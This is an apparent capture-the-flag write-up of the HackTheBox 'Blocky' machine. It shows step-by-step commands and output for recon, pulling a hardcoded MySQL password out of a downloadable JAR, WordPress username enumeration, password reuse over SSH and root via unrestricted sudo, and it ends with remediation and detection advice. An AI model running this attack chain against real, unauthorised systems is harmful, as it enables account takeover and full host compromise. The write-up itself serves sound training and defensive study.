







# HackTheBox - Blocky

**OS:** Linux (Ubuntu 16.04)

Blocky is a Linux box themed around a Minecraft server. The web root redirects to a
`blocky.htb` virtual host serving WordPress 4.8, and content discovery turns up a
`/plugins` directory that fronts an AJAX file browser exposing two downloadable JAR
files. A JAR is just a ZIP of compiled classes, so the custom `BlockyCore.jar` can be
opened offline, and its constant pool leaks a hardcoded MySQL root password. WordPress
author enumeration reveals the username `notch`, and that same plugin password has been
reused for `notch`'s SSH account, granting the foothold and the user flag. `notch`
belongs to the `sudo` group with unrestricted `(ALL : ALL) ALL` rights, so a single
`sudo` command yields a root shell and the root flag.

| Field | Value |
|---|---|
| Platform | HTB |
| Target | `<target-ip>` (blocky.htb) |
| Initial Access | JAR decompilation -> hardcoded MySQL password -> credential reuse over SSH |
| Privilege Escalation | Unrestricted `sudo` rights |
| Final Access | `root` |

---

## Recon

### Port Scan

A full TCP scan ran in the background while targeted enumeration began on the obvious
web surface:

```
$ nmap -p- --min-rate 5000 -T4 <target-ip> -oN nmap-full.txt
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
8192/tcp  closed sophos
25565/tcp open   minecraft
```

A service/version scan on the open ports filled in the detail:

```
$ nmap -sCV -p21,22,80,25565 <target-ip> -oN nmap-top.txt
21/tcp    open   ftp?
22/tcp    open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://blocky.htb
25565/tcp open   minecraft
Service Info: Host: 127.0.1.1; OS: Linux
```

| Port | Proto | Service | Notes |
|---|---|---|---|
| 21 | TCP | FTP | banner did not grab (filtered/flaky); not on the path |
| 22 | TCP | SSH | OpenSSH 7.2p2, the eventual foothold channel |
| 80 | TCP | HTTP | Apache 2.4.18, redirects to `blocky.htb` |
| 25565 | TCP | Minecraft | the box's theme, not an attack vector |

Port 80 redirecting to a hostname is the first signal: the application is served from a
named virtual host, so requests must carry the right `Host` header to see the real site.

```
$ curl -s -I http://<target-ip>/
HTTP/1.1 302 Found
Server: Apache/2.4.18 (Ubuntu)
Location: http://blocky.htb
```

> **Why this works:** Apache name-based virtual hosting keys on the HTTP `Host` header.
> Hitting the bare IP returns the default vhost (here a redirect); the WordPress
> application only renders when the request claims `Host: blocky.htb`. On the attack box
> this is resolved with `--resolve` / a `Host:` header rather than editing `/etc/hosts`.

### Web Enumeration

Requesting the vhost confirms WordPress 4.8 (the Minecraft "BlockyCraft" site):

```
$ curl -s --resolve blocky.htb:80:<target-ip> http://blocky.htb/ | grep -iE '<title>|ver='
<title>BlockyCraft &#8211; Under Construction!</title>
... href='http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8' ...
```



Content discovery against the vhost (pointing the scanner at the IP with a forced `Host`
header so no DNS entry is needed) surfaced a non-WordPress `/plugins` directory:

```
$ gobuster dir -u http://<target-ip>/ -H 'Host: blocky.htb' \
    -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 60
/wiki    (Status: 301)
/wp-content
/wp-admin
/plugins (Status: 301)
/wp-includes
```



`/plugins` is not a WordPress path, it serves a "Cute file browser", a static AJAX
front-end that lists files via a helper script:

```
$ curl -s -H 'Host: blocky.htb' http://<target-ip>/plugins/ | head -15
<title>Cute file browser</title>
...
<script src="assets/js/script.js"></script>
```

The front-end is empty on first load because the file list is fetched by JavaScript.
Reading `script.js` shows where from:

```
$ curl -s -H 'Host: blocky.htb' http://<target-ip>/plugins/assets/js/script.js | grep -i 'get\|scan'
	// Start by fetching the file data from scan.php with an AJAX request
	$.get('scan.php', function(data) {
```

Calling `scan.php` directly returns the directory contents as JSON:

```
$ curl -s -H 'Host: blocky.htb' http://<target-ip>/plugins/scan.php
{"name":"files","type":"folder","path":"files","items":[
 {"name":"BlockyCore.jar","type":"file","path":"files/BlockyCore.jar","size":883},
 {"name":"griefprevention-1.11.2-3.1.1.298.jar","type":"file","path":"files/griefprevention-1.11.2-3.1.1.298.jar","size":532928}]}
```



> **Gotcha worth recording:** an empty-looking JS file browser is not a dead end. The
> client-side `$.get('scan.php', ...)` call names the server endpoint that enumerates the
> directory, request that endpoint directly and the listing (here two JAR files) is yours
> regardless of what the rendered page shows. `griefprevention` is a stock public plugin;
> `BlockyCore.jar` is custom and tiny (883 bytes), which is exactly the file worth reading.

---

## Initial Access

### JAR Decompilation

A JAR is a ZIP archive of compiled `.class` files, so it needs no special tooling to open.
Download it and unzip:

```
$ curl -s -H 'Host: blocky.htb' http://<target-ip>/plugins/files/BlockyCore.jar -o BlockyCore.jar
$ file BlockyCore.jar
BlockyCore.jar: Java archive data (JAR)
$ unzip -o BlockyCore.jar
   inflating: com/myfirstplugin/BlockyCore.class
```

A proper decompiler (`jd-gui`, `procyon`, `cfr`) renders clean source, but even `strings`
on the `.class` file exposes the constant pool, where Java stores every string literal,
including the hardcoded credentials:

```
$ strings com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore
sqlHost
sqlUser
sqlPass
...
localhost
root
8Y*********************
...
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
```

The class defines `sqlHost = localhost`, `sqlUser = root`, `sqlPass = 8Y*********************`.



> **Why this works:** Java string literals are stored verbatim in the class file's UTF-8
> constant pool. Compilation is not encryption, so any secret baked into distributed code
> (a plugin, a mobile app, a thick client) is fully recoverable offline. Shipping
> credentials inside a downloadable JAR is equivalent to publishing them in plaintext.

### Username Enumeration and Credential Reuse

The password is nominally for the MySQL `root` user. SSH as `root` with it fails (a sane
default), so the question is *which local user* might reuse it. WordPress readily discloses
its authors. The `?author=1` archive redirect and the REST API both name the same account:

```
$ curl -s -H 'Host: blocky.htb' "http://<target-ip>/?author=1" -I | grep -i location
Location: http://blocky.htb/index.php/author/notch/

$ curl -s -H 'Host: blocky.htb' "http://<target-ip>/index.php/wp-json/wp/v2/users"
[{"id":1,"name":"Notch","slug":"notch", ... }]
```



`notch` is the Minecraft creator and the obvious site owner. Testing the recovered MySQL
password against `notch` over SSH succeeds, the credential was reused:

```
$ ssh notch@<target-ip>
notch@<target-ip>'s password: 8Y*********************

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ hostname
Blocky
notch@Blocky:~$ cat ~/user.txt
<user-flag-redacted>
```



> **Why this works:** credential reuse across a service account (MySQL) and a shell account
> (SSH) is the entire pivot. Recovering a password is only half the problem; the win comes
> from spraying it against the *other* identities the box exposes, and WordPress hands over
> the username for free via author enumeration.

---

## Privilege Escalation

The `id` output already shows `notch` in the `sudo` group, the first thing to check after
landing a shell. `sudo -l` (the password is the same reused one) confirms unrestricted
rights:

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 8Y*********************
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

`(ALL : ALL) ALL` means `notch` can run any command as any user, including root. A single
`sudo` invocation gives a root shell and the flag:

```
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# hostname
Blocky
root@Blocky:~# cat /root/root.txt
<root-flag-redacted>
```



> **Gotcha worth recording:** membership in `sudo` plus an `(ALL : ALL) ALL` rule is the
> textbook misconfiguration, the moment you have the user's password (which here is the
> same one used everywhere), root is one command away. Always read the `groups` field of
> `id` before reaching for an exploit; the answer is often already there.

---

## Root Cause

The chain is a sequence of three independent failures, each of which would be survivable
alone:

1. **Secrets in distributed code.** `BlockyCore.jar` was published with a live database
   password compiled in. Compilation provides no confidentiality, so the secret was
   recoverable by anyone who could download the file.
2. **Unauthenticated exposure of that code.** The `/plugins` directory and its `scan.php`
   endpoint served the JAR to anonymous users, turning an internal build artifact into a
   public download.
3. **Credential reuse and over-broad sudo.** The MySQL password was reused for the
   interactive `notch` account, and `notch` held unrestricted `sudo`, so a single reused
   secret bridged straight from anonymous web access to root.

## Impact

Full root compromise. An attacker gains arbitrary command execution as `root`, access to
all data on the host (including the MySQL instance the leaked password was for), the
ability to harvest further credentials, and a pivot point into any system that trusts this
host or shares the reused password.

## Remediation

Recommendations are ordered by priority. The first items break the demonstrated path
outright; the remainder are hardening.

**1. Remove the hardcoded credential and rotate it (highest priority).** Strip the
password out of `BlockyCore.jar`, rebuild, and load secrets at runtime from configuration
or a secrets manager rather than source. Rotate the MySQL `root` password immediately,
since it is now public, and rotate `notch`'s SSH password with it.

**2. Stop serving build artifacts anonymously.** Remove the `/plugins` directory (and
`scan.php`) from the web root, or place it behind authentication. Source and binaries
should never be downloadable from a production site.

**3. Constrain sudo.** Replace `notch`'s `(ALL : ALL) ALL` rule with the specific commands
the account genuinely needs, and require a password (already the case here). Remove `notch`
from the `sudo` group if administrative rights are not required.

**4. Enforce unique credentials.** Ban credential reuse between service accounts and
interactive accounts; a leaked database password should never unlock a shell.

**5. Reduce WordPress information disclosure.** Block author enumeration (`?author=`
redirects and the `wp-json/wp/v2/users` endpoint) with a plugin or web-server rule so
internal usernames are not handed to anonymous visitors.

**6. Patch the platform.** WordPress 4.8, Apache 2.4.18, and Ubuntu 16.04 are all long
out of support, bring the stack to current, supported versions.

### Validation

- Download every file under `/plugins` and confirm none returns 200 (or that auth is
  enforced); confirm `scan.php` no longer enumerates the directory.
- `strings`/decompile the shipped JAR and confirm no credential literals remain.
- Run `sudo -l` as `notch` and confirm only scoped commands are listed.
- Attempt SSH as `notch` with the old (rotated) password and confirm failure.
- Request `?author=1` and `wp-json/wp/v2/users` and confirm no username is returned.

## Detection Opportunities

- **Anonymous artifact download:** Apache `access.log` entries for `/plugins/scan.php` and
  `*.jar` GETs from external addresses, build artifacts should never be fetched by
  unauthenticated clients.
- **Author enumeration:** bursts of `?author=N` requests or hits to
  `wp-json/wp/v2/users`, classic WordPress username harvesting.
- **Credential reuse / foothold:** a successful SSH `Accepted password` for `notch`
  (`/var/log/auth.log`) shortly after web enumeration of the same host, especially from
  the same source IP.
- **Privilege escalation:** `sudo` session-opened events in `auth.log` for `notch` running
  `su`/root shells, correlate any `(ALL : ALL) ALL` use against an approved change.

## Lessons Learned

- **A JAR is a ZIP.** Compiled does not mean confidential, `unzip` plus `strings` (or any
  decompiler) recovers every embedded literal, so credentials in distributed code are
  public.
- **An empty client-side file browser still names its server endpoint.** Reading the JS
  (`$.get('scan.php')`) turned a blank page into a file listing.
- **Spray the secret you found before cracking anything new.** The whole escalation hinged
  on testing one recovered password against `notch`, the username WordPress disclosed for
  free.
- **Read `id` first.** Group membership (`sudo`) plus `sudo -l` answered privilege
  escalation before any enumeration script was needed.

## Cleanup

- All commands ran in the interactive SSH session; nothing was uploaded to or dropped on
  the target.
- The downloaded `BlockyCore.jar` and its extracted class stayed on the attack box for
  offline analysis only.
- No accounts, files, or configuration were modified on the target; no persistence was
  established. Logging out of the SSH session leaves the box as found.
